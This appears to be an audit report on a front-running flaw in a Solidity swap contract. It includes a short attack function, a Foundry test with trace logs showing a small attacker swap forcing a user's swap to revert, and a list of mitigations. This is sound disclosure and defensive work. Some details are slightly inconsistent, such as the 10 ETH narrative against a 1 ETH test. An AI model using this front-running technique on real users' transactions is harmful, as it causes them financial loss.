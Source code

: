 # Proof of Concept: Front-Running Vulnerability in Swap Contract

## Description
The swapETHForTokens function in the Swap contract is vulnerable to front-running. An attacker can observe a user’s pending swap in the mempool and submit a small swap with higher gas, altering tokenBalance and ethBalance. This increases the price (fewer tokens per ETH), causing the user’s swap to fail or yield fewer tokens.

## Impact
- *Severity*: High
- *Effect*: Users receive fewer tokens than expected or their swap fails, leading to financial loss or denied access to tokens.

## Likelihood
- *Probability*: High
- *Reason*: Ethereum’s public mempool allows attackers to monitor and front-run large swaps.

## Proof of Concept
1. *Setup*: Deploy Swap with tokenBalance = 10000 * 10^18, ethBalance = 100 ether.
2. *Attack Steps*:
   - User submits a 10 ETH swap, expecting ~1000 * 10^18 tokens.
   - Attacker front-runs with a 0.1 ETH swap, reducing tokenBalance and increasing ethBalance.
   - User’s swap fails due to minTokens or receives fewer tokens.
3. *Code Snippet*:
   ```solidity
   function attack(address swapAddr) external payable {
       Swap(swapAddr).swapETHForTokens{value: 0.1 ether}(0);
   }
4. *TEST CASE*:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import {Swap} from "../src/Swap.sol";

contract SwapTest is Test {
    Swap public swap;
    address user = makeAddr("userA");
    address attacker = makeAddr("userB");

    function setUp() public {
        swap = new Swap();
        vm.deal(user, 10 ether); // Give userA 10 ETH
        vm.deal(attacker, 10 ether); // Give userB 10 ETH
    }

    function testFrontrunningCausesSlippage() public {
        uint amountToSwap = 1 ether;
        uint expectedTokensBefore = (amountToSwap * swap.tokenBalance()) /
            swap.ethBalance();
        vm.prank(attacker);
        swap.swapETHForTokens{value: 0.1 ether}(0);

        vm.startPrank(user);
        vm.expectRevert("Insufficient tokens received");
        swap.swapETHForTokens{value: amountToSwap}(expectedTokensBefore);
        vm.stopPrank();
    }
}
```
5. *TRACE LOGS*:
```solidity
Ran 1 test for test/Swap.t.sol:SwapTest
[PASS] testFrontrunningCausesSlippage() (gas: 43896)
Traces:
  [43896] SwapTest::testFrontrunningCausesSlippage()
    ├─ [2425] Swap::ethBalance() [staticcall]
    │   └─ ← [Return] 100000000000000000000 [1e20]
    ├─ [2446] Swap::tokenBalance() [staticcall]
    │   └─ ← [Return] 10000000000000000000000 [1e22]
    ├─ [0] VM::prank(userB: [0xc150499dda64693c6b39dBE263D8F2Df391Db71B])
    │   └─ ← [Return] 
    ├─ [7583] Swap::swapETHForTokens{value: 100000000000000000}(0)
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(userA: [0xCe6c11dDc81C10B05678dA2DA034ebD0E5414107])
    │   └─ ← [Return] 
    ├─ [0] VM::expectRevert(custom error 0xf28dceb3:  Insufficient tokens received)
    │   └─ ← [Return] 
    ├─ [1318] Swap::swapETHForTokens{value: 1000000000000000000}(100000000000000000000 [1e20])
    │   └─ ← [Revert] revert: Insufficient tokens received
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

```
# Mitigation: Protect Against Frontrunning via Slippage Tolerance Enforcement
*Problem Summary*
The current implementation of swapETHForTokens(uint256 minTokens) is vulnerable to frontrunning attacks due to its reliance on a dynamic pricing formula that uses internal state (tokenBalance and ethBalance). A malicious actor can observe a high-value transaction in the mempool and front-run it with a small transaction that distorts the exchange rate, causing the original transaction to fail or execute at a less favorable rate. This is known as a price manipulation frontrunning attack.

*Recommended Mitigation Strategy*
1. Time-Weighted Average Pricing (TWAP) or Oracle Integration
Why: Prevent manipulation of spot prices by averaging over a period of time.

Implement a pricing mechanism that decouples swap pricing from the immediate internal state of the contract. Use a time-weighted average price (TWAP) sourced from a trusted oracle (e.g., Chainlink, Uniswap TWAP) to determine the ETH/token rate. This reduces the impact of single-block manipulations.
```solidity
// Pseudocode concept
function getTokenPrice() external view returns (uint256) {
    return priceOracle.getTWAP(); // Average over last N blocks
}
```
2. Bounded Slippage Enforcement (Caller-Specified minTokens)
Why: Ensure swaps do not execute below user’s acceptable rate.

You're already requiring minTokens, but this protection only works if users specify realistic values. Educate users (or implement UI/SDK-side helpers) to calculate and pass minTokens based on:

Expected price

Acceptable slippage buffer (e.g., 0.5%–1%)

Example:
```solidity
uint expectedTokens = (msg.value * tokenBalance) / ethBalance;
uint minTokens = expectedTokens * 995 / 1000; // Allow 0.5% slippage
swapETHForTokens(minTokens);
```
Note: This must be enforced off-chain by the caller or frontend.

3. Use Reentrancy Guards and Access Control if Applicable
Why: Prevent more advanced multi-call manipulation.

Even though not directly related to frontrunning, enabling a nonReentrant modifier and proper access control helps reduce complex multi-transaction or sandwich attack vectors in generalized swap systems.

4. Atomicity via Off-Chain Quoting + Permit Signatures
Why: Reduce delay between rate quote and execution.

Introduce off-chain quoting combined with EIP-2612-style signed approvals or EIP-712 permit-style meta-transactions. This ensures that the rate at which a user agrees to swap is used exactly in the transaction, preventing front-running during the quote-execution delay.

5. Add a Cooldown or Block Delay Between Swaps (Optional)
Why: Discourage back-to-back arbitrage or flash attacks.

For low-liquidity pools, consider enforcing a minimum block delay or time-based throttle between consecutive swaps, especially by different users. This reduces the chance of back-running.

```solidity
mapping(address => uint256) public lastSwapBlock;

function swapETHForTokens(uint256 minTokens) external payable {
    require(block.number > lastSwapBlock[msg.sender] + 1, "Wait before next swap");
    lastSwapBlock[msg.sender] = block.number;
    ...
}
```
